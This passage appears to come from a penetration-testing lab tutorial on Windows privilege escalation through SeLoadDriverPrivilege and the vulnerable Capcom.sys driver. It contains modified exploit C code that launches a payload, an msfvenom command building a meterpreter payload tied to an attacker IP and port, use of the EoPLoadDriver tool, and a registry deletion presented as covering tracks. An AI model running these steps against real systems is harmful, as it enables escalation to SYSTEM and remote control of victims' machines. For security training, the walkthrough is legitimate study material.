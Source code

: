 ```c
}
```

Use these ones instead:

```c
// Launches a command shell process
static bool LaunchShell()
{
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

Now compile the code and obtain the `ExploitCapcom.exe` file that will open a revshell.exe.

Generate the revshell.exe with msfvenom in your attacking machine:

```bash
msfvenom -p windows/x64/meterpreter/bind_tcp LHOST=10.10.14.39 LPORT=1234 -f exe -o revshell.exe
```


Copy `revshell.exe` and  `ExploitCapcom.exe` files to the host machine.

We would set up a listener based on the `msfvenom` payload we generated and hopefully receive a reverse shell connection back when executing `ExploitCapcom.exe`. If a reverse shell connection is blocked for some reason, we can try a bind shell or exec/add user payload.


## Alternative #3  Automating the Steps


We can use a tool such as [EoPLoadDriver](https://github.com/amandaguglieri/EoPLoadDriver/releases/tag/1.0) to automate the process of enabling the privilege, creating the registry key, and executing `NTLoadDriver` to load the driver. To do this, we would run the following:

```powershell
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```


We would then run `ExploitCapcom.exe` to pop a SYSTEM shell or run our custom binary.

## Clean-up

We can cover our tracks a bit by deleting the registry key added earlier.

```cmd-session
reg delete HKCU\System\CurrentControlSet\Capcom
```

